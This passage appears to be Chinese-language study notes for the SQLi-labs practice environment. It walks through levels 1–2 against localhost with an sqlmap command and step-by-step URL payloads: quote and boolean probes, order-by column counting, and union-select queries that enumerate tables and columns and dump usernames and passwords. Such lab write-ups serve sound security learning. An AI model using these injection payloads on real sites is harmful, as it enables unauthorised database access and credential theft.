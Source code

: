             > sqlmap -u "http://localhost/Less-1/?id=1" --dbs --batch --technique B
    
## 第二关 基于错误的GET整型注入
![2020-1-3-12-46-33](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-3-12-46-33)

### 存在注入点判断

1. 加上单引号报错
```
http://localhost/sqlilabs2/Less-2/index.php?id=1'--+
```
2. 加上and 1=1 页面正常
```
http://localhost/sqlilabs2/Less-2/index.php?id=1 and 1=1--+
```
3. 加上and 12=2 页面不正常
```
http://localhost/sqlilabs2/Less-2/index.php?id=1 and 12=2--+
```
**说明执行了传入的payload，存在注入**

4. 判断字段数
```
http://localhost/sqlilabs2/Less-2/index.php?id=1 order by 3--+ # 正常
http://localhost/sqlilabs2/Less-2/index.php?id=1 order by 4--+ # 页面显示错误

说明字段数为3
```

5. 查询表名

```
http://localhost/sqlilabs2/Less-2/index.php?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = database()--+
```

6. 查询字段名

```
http://localhost/sqlilabs2/Less-2/index.php?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name = 'users' --+
```

![2020-1-3-12-57-11](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-3-12-57-11)

7. 直接查询数据库数据

```
http://localhost/sqlilabs2/Less-2/index.php?id=-1 union select 1,group_concat(username),group_concat(password) from users --+
```

![2020-1-3-12-59-54](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-3-12-59-54)

## 第三关 基于错误的GET单引号变形注入
![2020-1-3-13-7-22-Sqlilabs通关笔记(1-10)](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-3-13-7-22-Sqlilabs%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0(1-10))
